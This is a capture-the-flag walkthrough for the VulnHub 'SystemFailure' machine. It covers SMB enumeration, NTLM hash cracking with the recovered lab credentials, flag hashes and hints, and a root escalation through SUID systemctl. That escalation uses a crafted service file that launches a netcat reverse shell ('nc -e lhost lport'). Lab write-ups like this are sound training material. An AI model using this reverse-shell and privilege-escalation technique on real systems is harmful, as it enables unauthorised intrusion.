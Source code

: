 SystemFailure | [0xJin](https://twitter.com/0xJin)
=======================
**Source:** [vulnhub](https://www.vulnhub.com/entry/system-failure-1,654/)

Looting Information
-------------------

- as usual `nmap`
- smbenum by `enum4linux`

```sh
smbclient //SystemFailure/anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Dec 17 21:25:14 2020
  ..                                  D        0  Wed Dec 16 14:58:53 2020
  share                               N      220  Thu Dec 17 21:25:14 2020

		7205476 blocks of size 1024. 5366092 blocks available
smb: \> mget *
Get file share? y
getting file \share of size 220 as share (43.0 KiloBytes/sec) (average 43.0 KiloBytes/sec)
smb: \> quit
```

cat `share`
-----------
`hint1`
<!-- 89492D216D0A212F8ED54FC5AC9D340B -->
```
Guys, I left you access only here to give you my shared file, you have little time, I leave you the login credentials inside for FTP you will find some info, you have to hurry!

NTLMHASH

Admin
```
Crack NTLM hash
---------------

cred for : ssh & ftp
<!-- admin:qazwsxedc -->
```sh
john --show --format=NT hash
admin: ...  
1 password hash cracked, 0 left
```



- /Syst3m/here.txt `hint2`
```
(I l3f7 y0u 0ur s3cr3t c0d3)+(I l3f7 17 ju57 f0r y0u)+(t0 m4k3)x(7h1ng5 s4f3r.)

-Admin
```

- Refer to `/home/admin/Syst3m/F4iluR3/file0189.txt` `hint3`

`...to create super-soldiers-J310MIYla1aVUaSV-`

`hint4`
```
admin@SystemFailure:/var/www/html/area4$ cat Sup3rS3cR37/System/note.txt 
Guys, I left something here for you, I know your skills well, we must try to hurry. Not always everything goes the right way.

-Admin
```
[useful.txt](http://systemfailure/area4/Sup3rS3cR37/System/useful.txt)


Adv. Information
----------------

- /home/jin/secret.txt
`Reminder: I had left something in /opt/system`


FLAG
----
<!-- 1871828204892bc09be79e1a02607dbf -->
- user.txt | /home/valex/ 

- user2.txt | /home/jin/
<!-- 172c7b08a7507f08bab7694fd632839e -->

- .SuP3rFin4Lfl4g.txt 

```sh
╔═╗┬ ┬┌─┐┌┬┐┌─┐┌┬┐  ╔═╗┌─┐┬┬  ┬ ┬┬─┐┌─┐
╚═╗└┬┘└─┐ │ ├┤ │││  ╠╣ ├─┤││  │ │├┬┘├┤ 
╚═╝ ┴ └─┘ ┴ └─┘┴ ┴  ╚  ┴ ┴┴┴─┘└─┘┴└─└─┘

I knew you would succeed.

Oh no.

2527f167fe33658f6b976f3a4ac988dd

Follow me and give feedback on Twitter: 0xJin

L1N5c3QzbUY0aUx1UjIzNTEyNA==
```

check this out: L1N5c3QzbUY0aUx1UjIzNTEyNA== : [/Syst3mF4iLuR235124](https://i.giphy.com/media/lp3GUtG2waC88/giphy.webp)


- root.txt `hint5` 
`If you are reading this flag, without being rooted, it is not valid. You must enter after send me a picture you entered jin, and tag me. Good luck.`

**use superpower to find**
```sh 
find / -iname "*.txt" 2> /dev/null
```


Ref Section
-----------

-e nsr
```
The -e flag gives you more options to test with. Sometimes users have passwords that are so amazingly bad that you have to account for them outside the normal scope of your wordlist. The letters nsr after the -e flag correspond to more ways to test. n stands for "null," meaning that Hydra will test for a user not having a password. s stands for "same." Hydra will test the same password as the username, when using s. r stands for "reverse." If a user thought that they were clever and reversed their bad password, Hydra will catch that too. 
```

SUID `systemctl` 
----------------

[GTFO](https://gtfobins.github.io/gtfobins/systemctl/)



`/tmp/reverse.service`
```sh
[Service]
Type=oneshot
ExecStart=/bin/sh /tmp/nc
[Install]
WantedBy=multi-user.target
```

`/tmp/nc`
```sh
nc -e lhost lport
```
```sh
systemctl link /tmp/reverse.service

# before that run listener from localhost

systemctl enable --now /tmp/reverse.service
```
